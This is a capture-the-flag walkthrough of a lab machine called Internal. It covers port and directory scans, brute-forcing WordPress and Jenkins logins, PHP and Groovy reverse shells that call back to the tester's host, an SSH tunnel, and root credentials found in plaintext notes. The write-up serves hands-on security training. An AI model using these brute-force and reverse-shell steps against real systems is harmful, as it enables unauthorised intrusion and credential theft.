





# Internal
* IP = 10.10.103.219
* Add to /etc/hosts as internal.thm

## Initial Enumerating And Scanning:
- Nmap scan to discover open ports: `nmap -sV -sC -O -p 21,22,80,8080,139,143,445,443,25,110 internal.thm`
- **nmap Scan Results:**
```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
25/tcp   closed smtp
80/tcp   open   http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp  closed pop3
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
8080/tcp closed http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.00 seconds
```
- I can see there is a open `http` on port `80`
- Also note of `8080/tcp closed http-proxy`

- dirsearch to search for hidden directories and files on the web server: `dirsearch -u internal.thm -x 400,500 -r -t 100`
- **dirsearch Scan Results:**
```
[14:08:56] Starting: 
[14:09:03] 403 -  277B  - /.ht_wsr.txt                                      
[14:09:03] 403 -  277B  - /.htaccess.bak1                                   
[14:09:03] 403 -  277B  - /.htaccess.save                                   
[14:09:03] 403 -  277B  - /.htaccess_orig
[14:09:03] 403 -  277B  - /.htaccess.orig                                   
[14:09:03] 403 -  277B  - /.htaccess_sc
[14:09:03] 403 -  277B  - /.htaccessBAK                                     
[14:09:03] 403 -  277B  - /.htaccess_extra
[14:09:03] 403 -  277B  - /.htaccess.sample
[14:09:03] 403 -  277B  - /.htaccessOLD
[14:09:03] 403 -  277B  - /.htm                                             
[14:09:03] 403 -  277B  - /.html
[14:09:03] 403 -  277B  - /.htaccessOLD2                                    
[14:09:03] 403 -  277B  - /.htpasswd_test                                   
[14:09:03] 403 -  277B  - /.httr-oauth
[14:09:03] 403 -  277B  - /.htpasswds
[14:09:04] 403 -  277B  - /.php                                             
[14:09:12] 301 -  311B  - /blog  ->  http://internal.thm/blog/              
[14:09:12] 200 -    2KB - /blog/wp-login.php                                
[14:09:13] 200 -   18KB - /blog/                                            
[14:09:20] 301 -  317B  - /javascript  ->  http://internal.thm/javascript/  
[14:09:26] 301 -  317B  - /phpmyadmin  ->  http://internal.thm/phpmyadmin/  
[14:09:27] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[14:09:27] 200 -    3KB - /phpmyadmin/                                      
[14:09:27] 200 -    3KB - /phpmyadmin/index.php                             
[14:09:30] 403 -  277B  - /server-status/                                   
[14:09:30] 403 -  277B  - /server-status                                    
[14:09:37] 200 -    2KB - /wordpress/wp-login.php                           
[14:09:38] 404 -   51KB - /wordpress/                                       
                                                                             
Task Completed
```
- Under the directory `http://internal.thm/blog/wp-login.php` there is a login page for `wordpress`


- Basic enumeration on the page with the login credentials using `admin:admin` can see that there is a active user called admin


- With this information I can try and run a `wpscan` to find the password
- `wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords rockyou.txt -t 100`
- **wpscan Scan Results:**
```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 19 14:42:53 2024
[+] Requests Done: 4219
[+] Cached Requests: 4
[+] Data Sent: 1.487 MB
[+] Data Received: 20.636 MB
[+] Memory used: 320.254 MB
[+] Elapsed time: 00:02:17
```

- I now have  `wordpress` login credentials the admin user:
```
Username: admin, Password: my2boys
```

## Exploitation/Gaining Access:
- Since I have an admin account I can use the `Theme Editor` to get myself a reverse shell on the machine
- I can use this `php-reverse-shell` from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

- I'm going to replace the `archive.php` directory



- In my terminal I have the following listener setup: `rlwrap nc -lvnp 53`
- I'm listing on port `53` as it is commonly unblocked on outgoing firewalls

- Now when I go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/archive.php` active reverse shell on the machine
```
listening on [any] 53 ...
connect to [10.2.17.217] from (UNKNOWN) [10.10.103.219] 41522
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:11:39 up  1:27,  0 users,  load average: 0.00, 0.02, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

- I upgraded my shell using this python command `python -c 'import pty;pty.spawn("/bin/bash")';`

- In this situation the first thing i'll look for is `.txt` files using this command `find / -name "*.txt" -type f 2>/dev/null`
- I was able to find a text file in the `/opt` directory called `wp-save.txt` so its worth taking a look at
- **Contents of `wp-save.txt`:**
```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- I now have  `SSH` login credentials for a user named aubreanna:
```
aubreanna:bubb13guM!@#123
```

- I can make sure that `aubreanna` is a real user on the machine by using `cat /etc/passwd`
- **cat /etc/passwd Results:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

- This shows us that `aubreanna` is infact a real user on the machine: `aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash`

- After connecting I can `ls` and see the `user.txt` getting my first flag
```
THM{***************}
```

## Post Exploitation:

- Now that I'm connected fully to `aubreanna`'s machine I want to try and take a look at the closed webserver I seen earlier from my nmap scan
- Using `netstat -ano` I can look at the network connections on the machine
- **netstat -ano Results:**
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:44243         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0    324 10.10.103.219:22        10.2.17.217:51700       ESTABLISHED on (0.42/0/0)
tcp        0      0 10.10.103.219:41524     10.2.17.217:53          CLOSE_WAIT  off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       1      0 10.10.103.219:80        10.2.17.217:35108       CLOSE_WAIT  keepalive (5183.12/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           off (0.00/0/0)
udp        0      0 10.10.103.219:68        0.0.0.0:*                           off (0.00/0/0)
raw6       0      0 :::58                   :::*                    7           off (0.00/0/0)
```

- This confirms that there is a webserver running on `127.0.0.1` or `localhost` on port `8080`

- I can't view this page from my machine because it is running on a `loopback interface` and is bound to `127.0.0.1` on the remote machine, meaning it only accepts connections from the same machine

- **To access the page I'm going to use a `SSH Tunnel`**
- This lets me "pretend" to be the remote machine by forwarding the traffic to `127.0.0.1:8080` on the remote server
- Using `ssh -L 8080:127.0.0.1:8080 aubreanna@internal.thm`
- Now I am able to go to `http://127.0.0.1:8080` and see that it is running `Jenkins`



- Assuming that the server is running defualt username credentials `admin` I'm going to use `ZAP`
- After grabbing the login request I'm going to `Fuzz` to the login request to try and get the credentials using the `rockyou.txt` wordlist



- **Fuzz Results**



- I now have the `Jenkins` login credentials:
```
admin:spongebob
```

## Privilege Escalation

- Using the `Script Console` in `Manage Jenkins` I can attempt to get another reverse shell on this machine using `Groovy script`
- I can use this `groovy-script-reverse-shell` from [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
- I'm going to chage the `String cmd="cmd.exe";` to go to `/bin/sh`. Doing this will allow me to have hopefully have full access to the machine's command-line interface



- In my terminal I have the following listener setup: `rlwrap nc -lvnp 8044`

- When I run this am I am able to get a successful reverse shell connection
```
listening on [any] 8044 ...
connect to [10.2.17.217] from (UNKNOWN) [10.10.103.219] 51840
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

- Now that I am on a new machine I'm going to look for text files again to try and hopefully get more information/credentials using `find / -name "*.txt" -type f 2>/dev/null`
- There is another text file in `/opt` directory on this machine called `note.txt`
- **Contents of `wp-save.txt`:**
```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

- I now have `SSH` login credentials for root:
```
root:tr0ub13guM!@#123
```

- After connecting I can `ls` and see the `root.txt` file getting my second and last flag
```
THM{***************}
```
